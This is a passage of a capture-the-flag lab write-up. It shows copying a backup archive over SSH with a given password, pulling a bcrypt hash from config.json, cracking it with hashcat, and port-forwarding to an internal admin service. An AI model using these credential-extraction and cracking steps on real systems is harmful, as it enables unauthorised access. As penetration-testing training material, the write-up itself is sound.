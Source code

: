 Instead of using `nc`, I decided to pull the backup directly to my attacker machine using `scp`:

**On attacker machine:**
```bash
scp gael@10.10.11.74:/var/backups/backrest_backup.tar.gz .
#mattp005numbertwo
```

The file `backrest_backup.tar.gz` turned out to be a plain TAR archive, not GZIP-compressed. Rename it and extract without the `z` flag:
```bash
mv backrest_backup.tar.gz backrest_backup.tar
tar -xvf backrest_backup.tar
```

While searching the extracted files, I located a configuration file .I inspected the `config.json` file and found a bcrypt-encoded password. After extracting the hash,  saved it to a file:

```bash
cat backrest/.config/backrest/config.json  
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP'| base64 -d > /tmp/bcrypt.hash
```
 used **Hashcat** with the `rockyou.txt` wordlist to crack it:
```bash
hashcat -m 3200 /tmp/bcrypt.hash /usr/share/wordlists/rockyou.txt --force
```
Once cracking was complete, I displayed the result:
```bash
hashcat -m 3200 /tmp/bcrypt.hash --show
```
The cracked password was:
```txt
!@#$%^
```

## Pivoting to the Internal Service

These credentials belonged to an **admin account** for a local web service running on port `9898`. I port-forwarded it to my machine:
```bash
ssh -L 9898:127.0.0.1:9898 gael@10.10.11.74
#mattp005numbertwo
```
Then accessed it via:
- use firefox 
```txt
http://localhost:9898 
```

Login details:
![](<./attachments/Artificial-6.png>)